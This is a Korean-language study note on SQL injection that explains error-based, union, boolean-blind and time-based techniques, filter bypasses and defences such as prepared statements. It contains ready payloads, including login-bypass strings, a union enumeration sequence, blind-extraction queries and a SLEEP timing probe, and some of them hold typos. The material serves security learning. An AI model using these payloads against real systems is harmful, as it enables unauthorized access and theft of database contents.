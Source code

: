 # SQL Injection
https://blog.naver.com/skinfosec2000/220482240245

https://ssunws.tistory.com/44


https://noirstar.tistory.com/264

https://pentestmonkey.net/category/cheat-sheet/sql-injection - cheat sheet

<br>

![](../img/SQL%20Injection%20-%20process.png)

### -- 2021 OWASP TOP 10 --
A03: Injection (인젝션)
SQL, NoSQL, OS 명령, ORM(Object Relational Mapping), LDAP, EL(Expression Language) 또는 OGNL(Object Graph Navigation Library) 인젝션 취약점은 신뢰할 수 없는 데이터가 명령어나 쿼리문의 일부분으로써, 인터프리터로 보내질 때 취약점이 발생한다.

<br>

SQL Injection 이란 악의적인 사용자가 보안상의 취약점을 이용하여, 임의의 SQL 문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위이다.

<br>

## Error based SQL Injection
SQL 공격 기법은 여러 가지가 있는데 논리적 에러를 이용한 SQL Injection은 가장 많이 쓰이고, 대중적인 공격 기법이다.

![](../img/SQL%20Injection%20-%20process%20-%202.png)

위의 사진에서 보이는 쿼리문은 일반적으로 로그인 시 많이 사용되는 SQL 구문이다. 해당 구문에서 입력값에 대한 검증이 없음을 확인하고, 악의적인 사용자가 임의의 SQL 구문을 주입하였다. 주입된 내용은 ‘ OR 1=1 -- 로  WHERE 절에 있는 싱글쿼터를 닫아주기 위한 싱글쿼터와 OR 1=1 라는 구문을 이용해 WHERE 절을 모두 참으로 만들고, -- 를 넣어줌으로 뒤의 구문을 모두 주석 처리 해주었다.

매우 간단한 구문이지만, 결론적으로 Users 테이블에 있는 모든 정보를 조회하게 됨으로 써 가장 먼저 만들어진 계정으로 로그인에 성공하게 된다. 보통은 관리자 계정을 맨 처음 만들기 때문에 관리자 계정에 로그인 할 수 있게 된다. 관리자 계정을 탈취한 악의적인 사용자는 관리자의 권한을 이용해 또 다른 2차피해를 발생 시킬 수 있게 된다.

<br><br>

다른 예시로

```
SELECT * FROM member WHERE id = '[value1]' AND pw = '[value2]'

SELECT * FROM member WHERE id = '[value1]' AND pw = '' or 1=1 --'
```

다른 사용자의 id를 알고 있다는 가정하에 ***' or 1=1 --*** 구문을 이용해서 pw 없이 접근이 가능하다.

앞에 싱글쿼터는 다른 싱글쿼터(')로 닫아주고 주석(--)을 이용하고  or 1=1 은 참이 되어서 pw 없이 로그인이 가능하다.

id만 같다면 뒤에 오는 pw는 무조건 참이 되니깐 말이다.

---보통 처음에는 ' 를 하난 

<br>

### 공격구문

```
' or 1=1 --
' or 1=0 --
```

<br>

## Union SQL Injection
SQL의 Union 키워드를 이용하는 공격기법이다.
Union은 두 개의 쿼리문에 대한 결과를 합쳐서 하나의 테이블로 보여주는 키워드이다.

union injection을 하기 위해서는 두 가지의 조건이 필요하다.
두 테이블의 컬럼 수가 같아야하고, 데이터형이 같아야한다.

Example 1.

union injection의 공격흐름이다.

```
' and db_name() > 1 --
' union select null --
' union select null,null --
' union select null,null,null ... --
' union select @@version --
' union select table_name,null,null from infromation_schema.tables --
' union select column_name,null,null from infromation_schema.columns where = '[table_name]' --
' union select [column_name],null,null from [table_name] --
```

<br>

## Blind SQL Injection
### Boolean based SQL
Boolean based SQL은 데이터베이스로부터 특정한 값이나 데이터를 전달받지 않고 단순히 참과 거짓의 정보만 알 수 있을 때 사용한다.

Example 1.

```
[ID]’ and ASCII(SUBSTR(SELECT name From information_schema.tables WHERE table_type=’base table’ limit 0,1)1,1)) > 100 --
```
해당구문은 MySQL 에서 테이블 명을 조회하는 구문으로 limit 키워드를 통해 하나의 테이블만 조회하고, SUBSTR 함수로 첫 글자만, 그리고 마지막으로 ASCII 를 통해서 ascii 값으로 변환해준다. 

만약에 조회되는 테이블 명이 Users 라면 ‘U’ 자가 ascii 값으로 조회가 될 것이고, 뒤의 100 이라는 숫자 값과 비교를 하게 된다.  
거짓이면 로그인 실패가 될 것이고, 참이 될 때까지 뒤의 100이라는 숫자를 변경해 가면서 비교를 하면 된다.  

공격자는 이 프로세스를 자동화 스크립트를 통하여 단기간 내에 테이블 명을 알아 낼 수 있다.

### Time based SQL
Time based SQL도 단순히 참과 거짓으로만 정보를 알 수 있을 때 사용한다.

Example 1.

```
[]' OR (LENGTH(DATABASE()) = 1 AND SLEEP(3)) --
```

악의적인 사용자가 []’ OR (LENGTH(DATABASE())=1 AND SLEEP(2)) – 이라는 구문을 주입하였다. 여기서 LENGTH 함수는 문자열의 길이를 반환하고, DATABASE 함수는 데이터베이스의 이름을 반환한다.

주입된 구문에서, LENGTH(DATABASE()) = 1 가 참이면 SLEEP(2) 가 동작하고, 거짓이면 동작하지 않는다. 이를 통해서 숫자 1 부분을 조작하여 데이터베이스의 길이를 알아 낼 수 있다.

<br>

## 우회 bypass

```
문자열 결합 방법
>>>
Oracle 'apple'||'banana'
Microsoft 'apple'+'banana'
PostgreSQL 'apple'||'banana'
Mysql 'apple'%20'banana'
CONCAT('apple','banana')
```

```
띄어쓰기 우회
+
/**/
%20
```

```
데이터베이스 버전 확인
Oracle	SELECT banner FROM v$version
        SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
```

<br>

## 대응방안
### # 매개변수 바인딩 & 저장프로시저 & prepared statement
<br>

![](../img/SQL_query_processing_1.jpg)
<br><br>

prepared statement를 사용하는 경우엔는 효율을 높이기 위해 <strong>parse</strong> 과정을 최초 1번만 수행하고 이후에는 생략할 수 있다. <strong>parse</strong> 과정을 모두 거친 후에 생성된 결과는 메모리 어딘가에 저장 해두고 필요할 때마다 사용한다. 반복적으로 트리를 사용하기 위해서 자주 변경되는 부분을 변수로 선언해 두고 매번 다른 값을 바인딩하여 사용한다.
<br><br>
바인딩 데이터는 문법 처리과정에서 미리 선 수행되고 SQL 문법이 아닌 내부의 인터프리터나 컴파일 언어로 처리하기 때문에 문법적인 의미를 가질 수 없다. 따라서 바인딩 변수에 SQL공격를 할지라도 공격은 실패한다.
<br><br>
### # 화이트리스트
화이티리스트란 '안전'이 증명된 것만을 허용하는 것으로 '악의성'이 입증된 것을 차단하는 블랙리스트 보안과 상반되는 보안 방식 이다. 화이트리스트, 블랙리스트라는 용어 대신 'positive'와 'nagㄴative' 보안 방법으로 불려지기도 한다.
<br><br>

### # 입력 값 필터링
<br>

### # 최소한의 권한 사용
<br>

### # 오류 메시지 출력 제한

<br><br>

---
**dual?** 오라클, mysql 제공하는 테이블로 쉽게 말해서 더미 테이블이다. 단순한 계산부터, 산술연산, 함수결과 등 쉽게 확인 할수 있는 임시 테이블이다.

```
SELECT '사과', 과일 FROM dual
```